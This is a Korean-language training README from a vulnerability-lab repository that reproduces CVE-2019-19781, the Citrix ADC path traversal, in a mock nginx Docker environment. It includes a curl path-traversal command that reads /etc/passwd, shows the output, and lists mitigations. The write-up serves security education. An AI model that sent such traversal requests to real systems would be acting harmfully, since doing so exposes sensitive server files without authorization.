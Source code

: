 # CVE-2019-19781(Citrix ADC Path Traversal Vulnerability)

- **작성자** : 화이트햇 3기 6반 김현진
- **github** : https://github.com/hyunjin0334/kr-vulhub/tree/main/CVE-2019-19781
- **Pull Requests** : 


## 개요
- **CVE 번호** : CVE-2019-19781

- **공개 날짜** : 2019년 12월 17일
  
- **취약점 요약** : Citrix ADC(Application Delivery Controller)는 WEB/WAN 가속, 웹-방화벽, L7 DDoS 방어 등 다양한 기능이 포함된 올인원 제품입니다. Citrix Gateway는 원격 엑세스를 단순하게 만들어주며, 앱과 리소스에 대한 액세스를 보호합니다.  
이 두 장비의 일부 버전에서 입력값에 대한 적절한 검증이 부족하여 공격자가 임의 코드를 실행시킬 수 있는 취약점이 발견되었습니다. Directory Traversal을 허용하는 문제점이 발견된 것입니다. /vpns/ 폴더에 대한 검증이 부족하여 민감한 파일을 읽거나 원격 코드를 실행(RCE)시킬 수 있습니다.

- **영향을 받는 버전** : (2020년 7월 이전에 지원된 버전)
  - Citrix ADC 13.0 이하
  - Citrix ADC 12.1 이하
  - Citrix ADC 12.0 이하
  - Citrix ADC 11.1 이하
  - Citrix ADC 10.5 이하


## 환경 구성 
- **Base Image** : nginx:1.17-alpine
  
    - **선정 이유** : Citrix ADC는 라이선스 없이 사용할 수 없으며 Base image가 존재하지 않기 때문에 직접 사용할 수 없었습니다. 따라서 오픈 웹서버이며 경로 매핑을 자유롭게 할 수 있는 것을 선정하여 실습 환경을 구성하여야 했습니다. nginx는 경로 매핑을 자유롭게 할 수 있기 때문에 Direatory Traversal 환경을 구축할 수 있었습니다. 또한 alpine 기반 이미지를 통해 빌드 속도와, 가벼운 Docker환경을 구축하고자 하였습니다.
 
- **구성 파일** :
  - Dockerfile
  - docker-compose.yml
  - nginx.conf
  - html/index.html
  - html/etc/passwd
 
- **Directory**
```text
cve201919781/
├── Dockerfile
├── docker-compose.yml
├── nginx.conf
└── html/
    ├── index.html
    └── etc/
        └── passwd
```

## 익스플로잇 및 결과 
- **1. Docker 빌드 및 실행** :
```
docker-compose up --build
```
![Docker 빌드 및 실행](1.png)  

- **2. 브라우저 접속 확인** :
```
http://localhost:8080/
```
![브라우저 접속 확인](2.png)  
정상적으로 접속되면 'CVE-2019-19781 Test Page'가 뜨게 됩니다.   

- **3. curl을 이용하여 Directory Traversal 공격 시도** :
```
curl http://localhost:8080/vpn/../vpns/../etc/passwd
```
해당 명령어는 curl을 통해 'http://localhost:8080'에 '/vpn/../vpns/../etc/passwd'요청을 하는 것입니다. 경로조작을 통해 민감정보인 서버 내부의 /etc/passwd와 같은 사용자 계정 정보가 저장된 중요한 파일을 읽어내려는 공격입니다.

- **4. 공격 결과 출력** :
``` 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
![curl시도 및 결과](3.png)   
/etc/passwd 안의 정보가 그대로 출력되어 공격에 성공하게 됩니다. 


## 정리
해당 취약점을 통해 민감 정보가 들어 있는 서버 내부의 파일에 인증 없이 접근이 가능했습니다. 해당 PoC에서는 내부의 민감 정보 파일에 정보를 읽도록 하였습니다. 간단히 원격 코드 실행(RCE)을 할 수 있었으며, 인증이 부족하다는 것으로 가장 민감한 정보까지 획득이 가능했습니다.   
취약점이 발견될 당시 /.../이 포함된 요청이나 /vpns/에 접근하려는 요청을 차단하길 권장하였습니다. 또한 snort 탐지 룰을 적용하여 모니터링하고 차단하기를 권장하였습니다. 현재는 보안 패치를 적용하여 해당 취약점에 대해 조치를 취한 상태입니다.

## 참고 자료 
- [CVE-2019-19781 Detail](https://nvd.nist.gov/vuln/detail/cve-2019-19781)
- [Citrix ADC and Gateway 취약점 (CVE-2019-19781)](https://ggonmerr.tistory.com/141)
- [[해외동향] Citrix 보안취약점(CVE-2019-19781) 점검도구 공개](https://www.cyberone.kr/news-trends-detail?id=56192&page=1)
- [보안 권고: 임의 코드 실행으로 이어지는 Citrix Application Delivery Controller 및 Citrix Gateway의 취약성(CVE-2019-19781)](https://www.silverfort.com/ko/blog/recommended-mitigation-steps-for-vulnerability-in-citrix-adc-and-citrix-gateway-cve-2019019781/)
- [Citrix Application Delivery Controller, Citrix Gateway, and Citrix SD-WAN WANOP appliance Security Update](https://support.citrix.com/s/article/CTX276688-citrix-application-delivery-controller-citrix-gateway-and-citrix-sdwan-wanop-appliance-security-update?language=en_US)
- [Nginx 개념 및 nginx.conf 설정](https://narup.tistory.com/209)
- [Citrix ADC and Gateway RCE Vulnerability (CVE-2019-19781)](https://peemangit.tistory.com/399)
- [New Snort rules protect against recently discovered Citrix vulnerability](https://blog.talosintelligence.com/snort-rules-cve-2019-19781/)
-[Detecting Citrix CVE-2019-19781](https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-031a)



